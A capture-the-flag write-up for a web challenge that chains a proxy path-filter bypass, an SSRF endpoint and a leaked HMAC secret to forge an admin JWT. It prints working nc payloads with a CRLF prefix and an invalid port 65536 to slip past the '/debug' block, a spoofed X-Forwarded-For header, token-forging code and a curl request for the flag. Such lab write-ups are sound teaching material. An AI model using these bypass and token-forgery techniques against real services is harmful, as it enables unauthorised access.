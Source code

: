 ## Overview

### Server1 (port 5000)

- Not exposed
- Serves JWT secret on `/.well-known/jwks.json`

### Server2 (port 3000)

- Not exposed
- The flag can be obtained by requesting `/admin/flag`, with the limitation of having a valid jwt token.
- SSRF on `/debug/fetch`

### Proxy (port 8082)

- Exposed
- Forwards requests to Server2 with the exclusion of paths starting with `/debug`

### Observation

In Server2, by requesting `/admin/flag` the server will only check if the JWT is generated with a valid secret and if role is admin.

And `/debug/fetch` will trust requests that has x-forwarded-for header equals to 127.0.0.1.

We can use SSRF to access Server1 and obtain JWT secret, then generate a valid JWT token and use it to access `/admin/flag`. Easy Right?

#### The missing piece

We can't access `/debug/fetch` because the proxy blocks it; We have to bypass that.

```js
if (checkPath.toLowerCase().startsWith("/debug")) {
  client.write(
    "HTTP/1.1 403 Forbidden\r\nConnection: close\r\nContent-Type: text/plain\r\nContent-Length: 9\r\n\r\nforbidden"
  );
  client.end();
  upstream.end();
  return;
}
```

#### Bypassing proxy path blocking

One thing that you may noticed is headers are parsed manually using `parseHeaders`:

```js
  client.on("data", (chunk) => {
    clientBuf = Buffer.concat([clientBuf, chunk]);

    const meta = parseHeaders(clientBuf);
    if (!meta) return;

    const { idx, method, path, headers } = meta;
```

Another thing that feels wrong is ignoring the error of URL parsing:

```js
try {
  if (/^https?:\/\//i.test(checkPath)) {
    const u = new URL(checkPath);
    checkPath = u.pathname || "";
  }
} catch (_) {}
```

### Payloads:

note:replace `instanceip` with yours

```bash
printf '\r\nGET /debug/fetch?url=http://localhost:5000/.well-known/jwks.json HTTP/1.1\r\nHost: example\r\nX-Forwarded-For: 127.0.0.1\r\n\r\n' | nc instanceip 8082
```

- parseHeaders will split with \r\n and parse the first part as the request line which will result in empty string, hence `/^https?:\/\//i.test(checkPath)` is false

```bash
 printf 'GET https://localhost:65536/debug/fetch?url=http://localhost:5000/.well-known/jwks.json HTTP/1.1\r\nHost: example\r\nX-Forwarded-For: 127.0.0.1\r\n\r\n' | nc instanceip 8082

```

- `new URL(checkPath)` will throw an error since 65536 is bigger than the maximum allowed port 65535

### Flag (no idea)

the previous payload will let us obtain the JWT secret (the field 'n' from the JSON response).

```json
{
  "keys": [
    {
      "kty": "RSA",
      "n": "random-string-for-hmac-secret",
      ...
    }
  ]
}
```

generate a valid jwt token:

```js
const jwt = require("jsonwebtoken");

const secret = "random-string-for-hmac-secret";
const payload = { role: "admin" };
const token = jwt.sign(payload, secret, { algorithm: "HS256" });

console.log(token);
```

get the flag

```bash

curl -v \
  -H "Authorization: Bearer eyJxxxxxxxx" \
  http://instanceip:8082/admin/flag
```
